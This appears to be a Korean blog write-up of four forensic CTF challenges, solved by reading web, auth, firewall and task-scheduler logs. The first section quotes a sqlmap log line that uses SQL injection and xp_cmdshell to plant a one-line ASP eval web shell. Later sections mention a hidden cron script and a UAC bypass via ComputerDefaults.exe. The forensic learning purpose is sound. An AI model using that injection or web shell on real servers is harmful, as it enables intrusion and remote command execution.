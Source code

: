 ![](https://blogfiles.pstatic.net/MjAyNDEwMDhfODkg/MDAxNzI4Mzk3MDQ4NDc1.8hTq1C2ic4JcCBrTDs8ipbWw-cKh4pz5QCWLh04emy8g.z2j8Y5P2SNLngciCif7U2su0K3Zh898Ym3KJHVYqmJog.PNG/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7_2024-10-08_213751.png?type=w1)

침해사고 분석은 처음 해봤는데 굉장히 재밌었다.

---

# AH-ING-PING

```
최근 회사의 웹 서버에서 비정상적인 활동이 감지되었습니다. 초기 조사 결과:

1. 웹 서버에 웹쉘이 업로드된 흔적이 발견되었습니다.

2. 공격자는 SQL 인젝션 취약점을 악용한 것으로 추정됩니다.

3. 해당 서버에는 IIS와 MS-SQL이 함께 운영 중입니다. 웹 로그를 분석하여 웹쉘 업로드 원인을 파악하고 플래그 값을 입력하세요.
```

주어지는 코드가 굉장히 긴데, 웹쉘을 업로드했다고 하길래 shell이라는 키워드로 로그를 찾아봤다. 총 6개의 로그가 뜨며 모두 공격 로그였다.

```
2024-01-08 02:51:07 10.10.103.133 GET /cart/cart_goods_search.asp order=1&searchNAME=aaaaa%27%29%3BEXEC%20master..xp_cmdshell%20%27echo%20%22%3C%25eval%20request%28%22abcdef%22%29%25%3E%3C%21%2D%2DfXlwcDRoUkNfM2h0XzJfM20wY2xsM1d7Tk9DQ0VMRQ%3D%3D%2D%2D%3E%22%3EE%3A%5CwebROOT%5CCRhappy20%5C1.asp%27-- 443 - sqlmap/1.2.10.42#dev+(http://sqlmap.org) - 200 0 0 319
```

이게 마지막 줄이고, echo나 eval이 있는 것을 보아 flag를 출력한 듯 보였다. 뒤에 base64 인코딩처럼 생긴게 있어서 디코딩해본 결과 플래그를 뒤집어 놓은 것이었고 그렇게 플래그가 도출되었다.

---

# AJ-A-PING

```
서버에서 주기적으로 외부에 패킷을 보내고 있다는 연락을 관제팀으로부터 전달받았다. 시스템 로그를 분석하여 주기적으로 패킷을 발생시키는 파일을 확인하고 원인이 된 계정을 파악하세요.
```

문제가 어려워서 힌트가 꽤 나왔는데, 공격자 계정 생성 시간이 새벽 1시 20분이라는 것이 나에게 큰 힌트가 되었다.

로그를 몇 개 살펴보자면,

계정 생성 로그

```
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:00 ubuntu accounts-daemon[680]: request by system-bus-name::1.178: create user 'curer'
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:00 ubuntu accounts-daemon[680]: Could not talk to message bus to find uid of sender :1.178: GDBus.Error:org.freedesktop.DBus.Error.NameHasNoOw>
Sep 25 01:20:01 ubuntu groupadd[5506]: group added to /etc/group: name=curer, GID=1003
```

sudo 로그, 여기서부터 의심할 수 있다.

```
Sep 25 01:20:01 ubuntu accounts-daemon[5574]: Adding user `curer' to group `sudo' ...
Sep 25 01:20:01 ubuntu accounts-daemon[5611]: Adding user curer to group sudo
Sep 25 01:20:01 ubuntu gpasswd[5611]: user curer added by root to group sudo
```

프로그램 실행 로그

```
Sep 25 01:26:48 ubuntu sudo[6281]:    curer : TTY=pts/1 ; PWD=/home/curer ; USER=root ; COMMAND=/usr/bin/su
Sep 25 01:26:48 ubuntu sudo[6281]: pam_unix(sudo:session): session opened for user root by curer(uid=0)
Sep 25 01:26:48 ubuntu su[6282]: (to root) curer on pts/1
Sep 25 01:26:48 ubuntu su[6282]: pam_unix(su:session): session opened for user root by curer(uid=0)
Sep 25 01:30:01 ubuntu CRON[6310]: pam_unix(cron:session): session opened for user root by (uid=0)
Sep 25 01:30:01 ubuntu CRON[6311]: (root) CMD (bash ~/.../apache.sh)
Sep 25 01:30:59 ubuntu sshd[6319]: Accepted password for ubuntu from 121.165.167.193 port 64488 ssh2
```

curer가 root 권한을 가진 점이 의심스럽고, 그리고 그 권한으로 .../apache.sh라는 파일을 실행시킨 점에서 이 파일이 공격파일임을 유추할 수 있다. 왜냐하면 .으로 시작하는 파일은 ls에는 보이지 않기 때문에 관리자가 쉽게 눈치채지 못하기 떄문이다. root로 파일을 실행시키는 점에서 파일의 절대 경로는 /root/.../apache.sh라는 것을 알 수 있다.

---

# CAN-DI-PING

문제를 아무데도 쓰지 않았다..

웹 통신 로그를 이용해서 공격자가 어떤 CVE를 이용한 공격을 했는지 맞추시오. 이런 문제였다.

```
힌트

문제가 발생되고 있는 HOST의 IP는 192.168.11.57로 확인되고 HTTP 프로토콜 패킷이 해당 IP로 들어오는 것이 확인됩니다. 추가적으로 HTTP헤더의 Accept-Encoding 값이 조작되어 들어오는 패킷이 있다고 관제팀으로 연락받았습니다.
```

문제를 볼 때는 알지 못했고 힌트를 받고 그대로 검색하니 나왔다. 이런 건 힌트 없이 어떻게 푸는걸까

---

# GGA-Rr-PING

```
해당 PC 내에서 WinRAR를 통해 특정 악성 파일이 실행되어 권한상승을 진행한 후 외부 통신이 진행된 것으로 판단이 됩니다. 공격자의 서버와 이 PC가 연결된 후 공격자는 두 가지 행위를 등록합니다. 해당 두 가지 행위를 파악하여 등록된 이름을 각각 시간 순서대로 기입하세요.
```

힌트

```
해당 악성 실행파일은 권한상승 이후 2가지의 서비스를 등록합니다. 두 서비스를 찾아 등록된 이름을 각각 시간 순서대로 적으세요. 처음 사용된 바이너리) 권한상승을 위해 정상 프로그램인 ComputerDefaults.exe 를 이용합니다.

등록한 서비스는 각각 작업 스케쥴러(3시 50분경) 및 방화벽 규칙(4시경) 입니다.
```


이 문제도 힌트가 어느 정도 나온 이후에 접근해서 굉장히 쉽게 느껴졌다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDlfMTE2/MDAxNzI4NDAxMDkwMjkz.KY3uwNdD28rjoFnZIh_q6xs-soZPTUqGkjm3m9K5NT4g.C9knldp9YCiCw5aYgqA9_Ldf9AtIeTn51yfZ3aUh3Dog.PNG/image.png?type=w1)

방화벽 규칙 확인을 위해 Defender log랑 Firewall log를 찾아봤다. Firewall log에서 smvic.exe가 규칙을 추가하는 것을 관찰했고, 누가봐도 공격 프로그램이 규칙을 넣은 것을 알 수 있다. 문제가 규칙 이름을 요구했으므로 cnct를 찾아내면 된다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDlfMjA5/MDAxNzI4NDAxMjIxODc1.hHofnGRUOlkV5ZpX5AFFgOmSQRDBB66QTqQiNN5bel8g.lC0zJoFCUiZhHeJF3J4jx9_sgXJAr4m6LSO-HUWQaiMg.PNG/image.png?type=w1)

TaskScheduler에는 직관적으로 보이진 않지만, 수많은 업데이트와 인스턴스 실행 로그 사이에 작업 등록 로그가 있는 것을 확인할 수 있었다. 이름이 avupdate라는 것을 찾아내면 된다.